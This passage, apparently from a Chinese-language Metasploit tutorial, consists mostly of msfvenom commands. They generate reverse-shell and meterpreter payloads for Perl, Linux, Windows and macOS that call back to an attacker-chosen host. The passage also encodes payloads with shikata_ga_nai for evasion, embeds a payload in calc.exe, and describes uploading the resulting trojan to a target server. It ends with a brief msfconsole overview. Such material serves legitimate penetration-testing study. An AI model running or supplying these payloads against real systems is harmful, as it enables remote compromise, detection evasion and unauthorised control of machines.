 Perl
```bash
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
```
Linux Based Shellcode
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```
Windows Based Shellcode
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
```
Mac Based Shellcode
```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
Handlers
```

#### payload加编码
命令格式：
```bash
msfvenom -p <payload> <payload options> -a <arch> --platform <platform> -e <encoder option> -i <encoder times> -b <bad-chars> -n <nopsled> -f <format> -o <path>
```
常用编码：
```bash
x86/shikata_ga_nai
cmd/powershell_base64
```
例子：
```bash
msfvenom -p windows/meterpreter/bind_tcp -e x86/shikata_ga_nai -i 3 -f exe > 1.exe
```

#### 自选模块
生成执行计算器payload例子：
```bash
msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -f exe > 1.exe
```

#### payload的坑
正常情况下，利用msfvenom生成的木马文件，可直接上传到目标服务器上运行（加权限）。但我自己遇到过一个坑，生成的文件内容有部分是无用的，会引起报错，如下图所示。
![](/upload_image/20170801/2.png)
![](/upload_image/20170801/3.png)
解决方案是vim文件，删除文件开头两行无效的内容。

### msfconsole
作用：用来在命令行下启动metasploit。
![](/upload_image/20170801/4.png)
启动后可看到metasploit当前版本，以及各个模块的插件数量。
* auxiliary扫描模块
* exploits漏洞利用模块
* payloads
* encoders编码模块
* nops空字符模块

